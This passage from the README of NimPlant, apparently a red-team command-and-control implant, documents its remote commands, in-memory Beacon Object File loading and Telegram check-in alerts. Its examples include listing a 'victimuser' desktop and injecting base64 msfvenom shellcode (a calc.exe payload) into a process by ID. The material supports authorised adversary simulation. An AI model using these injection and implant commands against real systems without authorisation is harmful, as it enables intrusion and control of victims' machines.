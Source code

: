 ```
wget              [url] <remotefilepath> Download a file to disk remotely.
whoami            Get the user ID that NimPlant is running as.
```
#### Using Beacon Object Files (BOFs)

**NOTE: BOFs are volatile by nature, and running a faulty BOF or passing wrong arguments or types WILL crash your NimPlant session! Make sure to test BOFs before deploying!**

NimPlant supports the in-memory loading of BOFs thanks to the great [NiCOFF project](https://github.com/frkngksl/NiCOFF). Running a bof requires a local compiled BOF object file (usually called something like `bofname.x64.o`), an entrypoint (commonly `go`), and a list of arguments with their respective argument types. Arguments are passed as a space-seperated `arg argtype` pair. 

Argument are given in accordance with the "Zzsib" format, so can be either `string` (alias: `z`), `wstring` (or `Z`), `integer` (aliases: `int` or `i`), `short` (`s`), or `binary` (`bin` or `b`). Binary arguments can be a raw binary string or base64-encoded, the latter is recommended to avoid bad characters.

Some examples of usage (using the magnificent TrustedSec BOFs [[1](https://github.com/trustedsec/CS-Situational-Awareness-BOF), [2](https://github.com/trustedsec/CS-Remote-OPs-BOF)] as an example) are given below. Note that `inline-execute` (without arguments) can be used to configure the command graphically in the GUI.

```bash
# Run a bof without arguments
inline-execute ipconfig.x64.o go

# Run the `dir` bof with one wide-string argument specifying the path to list, quoting optional
inline-execute dir.x64.o go "C:\Users\victimuser\desktop" Z

# Run an injection BOF specifying an integer for the process ID and base64-encoded shellcode as bytes
# Example shellcode generated with the command: msfvenom -p windows/x64/exec CMD=calc.exe EXITFUNC=thread -f base64
inline-execute /linux/path/to/createremotethread.x64.o go 1337 i /EiD5PDowAAAAEFRQVBSUVZIMdJlSItSYEiLUhhIi1IgSItyUEgPt0pKTTHJSDHArDxhfAIsIEHByQ1BAcHi7VJBUUiLUiCLQjxIAdCLgIgAAABIhcB0Z0gB0FCLSBhEi0AgSQHQ41ZI/8lBizSISAHWTTHJSDHArEHByQ1BAcE44HXxTANMJAhFOdF12FhEi0AkSQHQZkGLDEhEi0AcSQHQQYsEiEgB0EFYQVheWVpBWEFZQVpIg+wgQVL/4FhBWVpIixLpV////11IugEAAAAAAAAASI2NAQEAAEG6MYtvh//Vu+AdKgpBuqaVvZ3/1UiDxCg8BnwKgPvgdQW7RxNyb2oAWUGJ2v/VY2FsYy5leGUA b

# Depending on the BOF, sometimes argument parsing is a bit different using NiCOFF
# Make sure arguments are passed as expected by the BOF (can usually be retrieved from .CNA or BOF source)
# An example:
inline-execute enum_filter_driver.x64.o go            # CRASHES - default null handling does not work
inline-execute enum_filter_driver.x64.o go "" z       # OK      - arguments are passed as expected
```

#### Push Notifications
By default, NimPlant support push notifications via the `notify_user()` hook defined in `server/util/notify.py`. By default, it implements a simple Telegram notification which requires the `TELEGRAM_CHAT_ID` and `TELEGRAM_BOT_TOKEN` environment variables to be set before it will fire. Of course, the code can be easily extended with one's own push notification functionality. The `notify_user()` hook is called when a new NimPlant checks in, and receives an object with NimPlant details, which can then be pushed as desired.
